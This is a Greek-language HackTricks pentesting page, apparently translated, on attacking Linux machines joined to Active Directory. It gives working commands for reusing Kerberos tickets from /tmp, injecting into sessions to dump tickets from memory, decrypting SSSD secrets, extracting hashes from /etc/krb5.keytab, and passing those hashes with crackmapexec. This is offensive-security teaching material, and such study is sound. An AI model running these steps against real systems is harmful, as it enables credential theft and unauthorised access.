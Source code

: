 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Ένας υπολογιστής linux μπορεί επίσης να είναι παρών σε ένα περιβάλλον Active Directory.

Ένας υπολογιστής linux σε ένα AD μπορεί να **αποθηκεύει διάφορα CCACHE tickets μέσα σε αρχεία. Αυτά τα tickets μπορούν να χρησιμοποιηθούν και να καταχραστούν όπως οποιοδήποτε άλλο kerberos ticket**. Για να διαβάσετε αυτά τα tickets θα χρειαστεί να είστε ο χρήστης κάτοχος του ticket ή **root** μέσα στον υπολογιστή.

## Enumeration

### AD enumeration από linux

Αν έχετε πρόσβαση σε ένα AD σε linux (ή bash σε Windows) μπορείτε να δοκιμάσετε [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) για να καταγράψετε το AD.

Μπορείτε επίσης να ελέγξετε την παρακάτω σελίδα για να μάθετε **άλλους τρόπους για να καταγράψετε το AD από linux**:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

Το FreeIPA είναι μια ανοιχτού κώδικα **εναλλακτική** λύση για το Microsoft Windows **Active Directory**, κυρίως για **Unix** περιβάλλοντα. Συνδυάζει έναν πλήρη **LDAP κατάλογο** με ένα MIT **Kerberos** Key Distribution Center για διαχείριση παρόμοια με το Active Directory. Χρησιμοποιεί το Dogtag **Certificate System** για τη διαχείριση πιστοποιητικών CA & RA, υποστηρίζει **πολλαπλούς παράγοντες** αυθεντικοποίησης, συμπεριλαμβανομένων των smartcards. Το SSSD είναι ενσωματωμένο για διαδικασίες αυθεντικοποίησης Unix. Μάθετε περισσότερα γι' αυτό στην:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## Παίζοντας με τα tickets

### Pass The Ticket

Σε αυτή τη σελίδα θα βρείτε διάφορες τοποθεσίες όπου μπορείτε να **βρείτε kerberos tickets μέσα σε έναν υπολογιστή linux**, στην επόμενη σελίδα μπορείτε να μάθετε πώς να μετατρέψετε αυτά τα CCache tickets σε μορφές Kirbi (τη μορφή που χρειάζεστε να χρησιμοποιήσετε σε Windows) και επίσης πώς να εκτελέσετε μια επίθεση PTT:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### CCACHE ticket reuse από /tmp

Τα αρχεία CCACHE είναι δυαδικές μορφές για **αποθήκευση Kerberos credentials** που συνήθως αποθηκεύονται με δικαιώματα 600 στο `/tmp`. Αυτά τα αρχεία μπορούν να αναγνωριστούν από τη **μορφή ονόματος τους, `krb5cc_%{uid}`,** που σχετίζεται με το UID του χρήστη. Για την επαλήθευση του ticket αυθεντικοποίησης, η **μεταβλητή περιβάλλοντος `KRB5CCNAME`** θα πρέπει να οριστεί στη διαδρομή του επιθυμητού αρχείου ticket, επιτρέποντας την επαναχρησιμοποίησή του.

Λίστα με το τρέχον ticket που χρησιμοποιείται για αυθεντικοποίηση με `env | grep KRB5CCNAME`. Η μορφή είναι φορητή και το ticket μπορεί να **επανχρησιμοποιηθεί ορίζοντας τη μεταβλητή περιβάλλοντος** με `export KRB5CCNAME=/tmp/ticket.ccache`. Η μορφή ονόματος του kerberos ticket είναι `krb5cc_%{uid}` όπου uid είναι το UID του χρήστη.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE ticket reuse from keyring

**Τα αποθηκευμένα Kerberos tickets στη μνήμη μιας διαδικασίας μπορούν να εξαχθούν**, ιδιαίτερα όταν η προστασία ptrace της μηχανής είναι απενεργοποιημένη (`/proc/sys/kernel/yama/ptrace_scope`). Ένα χρήσιμο εργαλείο για αυτόν τον σκοπό βρίσκεται στο [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey), το οποίο διευκολύνει την εξαγωγή εισάγοντας σε συνεδρίες και εκ dumping tickets στο `/tmp`.

Για να ρυθμίσετε και να χρησιμοποιήσετε αυτό το εργαλείο, ακολουθούνται τα παρακάτω βήματα:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
Αυτή η διαδικασία θα προσπαθήσει να εισάγει σε διάφορες συνεδρίες, υποδεικνύοντας επιτυχία αποθηκεύοντας τα εξαγόμενα εισιτήρια στο `/tmp` με μια ονοματολογία `__krb_UID.ccache`.

### CCACHE ticket reuse από SSSD KCM

Το SSSD διατηρεί ένα αντίγραφο της βάσης δεδομένων στη διαδρομή `/var/lib/sss/secrets/secrets.ldb`. Το αντίστοιχο κλειδί αποθηκεύεται ως κρυφό αρχείο στη διαδρομή `/var/lib/sss/secrets/.secrets.mkey`. Από προεπιλογή, το κλειδί είναι αναγνώσιμο μόνο αν έχετε δικαιώματα **root**.

Η κλήση \*\*`SSSDKCMExtractor` \*\* με τις παραμέτρους --database και --key θα αναλύσει τη βάση δεδομένων και θα **αποκρυπτογραφήσει τα μυστικά**.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
Το **credential cache Kerberos blob μπορεί να μετατραπεί σε ένα χρησιμοποιήσιμο αρχείο Kerberos CCache** που μπορεί να περαστεί σε Mimikatz/Rubeus.

### CCACHE ticket reuse από keytab
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### Εξαγωγή λογαριασμών από το /etc/krb5.keytab

Τα κλειδιά λογαριασμού υπηρεσίας, που είναι απαραίτητα για υπηρεσίες που λειτουργούν με δικαιώματα root, αποθηκεύονται με ασφάλεια στα αρχεία **`/etc/krb5.keytab`**. Αυτά τα κλειδιά, παρόμοια με τους κωδικούς πρόσβασης για υπηρεσίες, απαιτούν αυστηρή εμπιστευτικότητα.

Για να ελέγξετε το περιεχόμενο του αρχείου keytab, μπορεί να χρησιμοποιηθεί το **`klist`**. Το εργαλείο έχει σχεδιαστεί για να εμφανίζει λεπτομέρειες κλειδιών, συμπεριλαμβανομένου του **NT Hash** για την αυθεντικοποίηση χρηστών, ιδιαίτερα όταν ο τύπος κλειδιού αναγνωρίζεται ως 23.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Για τους χρήστες Linux, **`KeyTabExtract`** προσφέρει λειτουργικότητα για την εξαγωγή του RC4 HMAC hash, το οποίο μπορεί να χρησιμοποιηθεί για την επαναχρησιμοποίηση του NTLM hash.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
Στο macOS, **`bifrost`** χρησιμεύει ως εργαλείο για την ανάλυση αρχείων keytab.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
Χρησιμοποιώντας τις εξαγόμενες πληροφορίες λογαριασμού και κατακερματισμού, μπορούν να δημιουργηθούν συνδέσεις με διακομιστές χρησιμοποιώντας εργαλεία όπως το **`crackmapexec`**.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## Αναφορές
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

